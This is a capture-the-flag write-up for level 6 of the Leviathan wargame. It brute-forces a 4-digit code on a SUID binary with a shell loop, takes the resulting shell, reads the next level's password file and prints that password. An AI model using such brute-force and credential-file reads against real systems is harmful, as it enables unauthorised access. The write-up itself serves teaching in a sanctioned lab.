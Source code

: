 # Leviathan Level 6

You can watch the walkthrough for this level here:  
[![YouTube](https://img.shields.io/badge/YouTube-Walkthrough-red?logo=youtube)](https://www.youtube.com/watch?v=K65OkckFCCs&t=127s&ab_channel=Gabahack)

> This video shows my full process solving (in Spanish) Level 4 from scratch, including the obstacles and mistakes I faced along the way. Some walkthroughs might be longer or shorter depending on the complexity of the level or how quickly I find the solution.

---

## 🔍 Exploration

We begin by inspecting the current directory. We find an executable with SUID permissions:

```bash
leviathan6@gibson:~$ ls -l
total 16
-r-sr-x--- 1 leviathan7 leviathan6 15036 Apr 10 14:23 leviathan6
leviathan6@gibson:~$ file leviathan6
leviathan6: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=e16f2bca0c05d56ab07cd7c95324355952bb3cc5, for GNU/Linux 3.2.0, not stripped
```

When executed without arguments or with a wrong 4-digit code:

```bash
leviathan6@gibson:~$ ./leviathan6 
usage: ./leviathan6 <4 digit code>
leviathan6@gibson:~$ ./leviathan6  2345
Wrong
```

From the strings, we observe:

```bash
leviathan6@gibson:~$ strings leviathan6 
....
usage: %s <4 digit code>
/bin/sh
Wrong
....
```
This suggests that providing the correct code may spawn a shell.

## 💣 Exploitation

Since the binary expects a 4-digit code, and there’s no obvious vulnerability or output to analyze, a brute-force attack is the most practical solution:

```bash
leviathan6@gibson:~$ for i in $(seq -w 0 9999); do ./leviathan6 "$i" | grep -v "Wrong"; done
whoami
leviathan7
cat /etc/leviathan_pass/leviathan7
qEs5Io5yM8
```
💡 In the walkthrough, I figure out how to optimize the brute-force loop for faster execution and output filtering.

## 🔐 Password for Last Leviathan Level (7)
qEs5Io5yM8

# 🎉 Final Message
After logging in as leviathan7, we find the final message:

```bash
leviathan7@gibson:~$ ls
CONGRATULATIONS
```
🎉 Congratulations! You've completed all levels of the Leviathan wargame.
